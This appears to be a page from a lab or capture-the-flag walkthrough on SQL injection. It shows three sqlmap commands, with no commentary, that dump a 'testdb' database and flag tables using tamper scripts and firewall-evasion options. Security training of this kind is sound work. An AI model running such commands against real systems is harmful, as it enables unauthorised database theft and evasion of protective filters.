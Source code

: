 # Page 3

{% code overflow="wrap" %}
```
sqlmap -r case10.txt -p id -D testdb --dump-all --batch --level=2 --risk=3 --tamper=base64encode --random-agent --skip-waf
```
{% endcode %}

{% code overflow="wrap" %}
```
sqlmap -r case11.txt -p id -D testdb -T flag11 --dump-all --batch --level=2 --risk=3 --tamper=between --random-agent --skip-waf
```
{% endcode %}

{% code overflow="wrap" %}
```
sqlmap -r final01.txt -p id -D production -T final_flag --batch --level=2 --risk=3 --tamper=between --random-agent --skip-waf --dump 
```
{% endcode %}
